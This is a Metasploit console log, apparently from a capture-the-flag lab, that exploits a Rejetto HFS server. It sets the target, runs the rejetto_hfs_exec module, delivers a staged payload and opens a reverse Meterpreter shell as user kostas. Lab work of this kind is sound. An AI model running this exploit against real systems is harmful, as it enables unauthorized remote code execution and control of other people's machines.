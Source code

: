 ```

msf5 > use exploit/windows/http/rejetto_hfs_exec 
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Using URL: http://0.0.0.0:8080/mQbrrSlbEHv7nCD
[*] Local IP: http://172.16.52.128:8080/mQbrrSlbEHv7nCD
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /mQbrrSlbEHv7nCD
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.8:49179) at 2020-06-05 04:21:57 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\EqHnfxO.vbs' on the target

meterpreter > 
[!] Tried to delete %TEMP%\EqHnfxO.vbs, unknown result

meterpreter > getuid
Server username: OPTIMUM\kostas
```
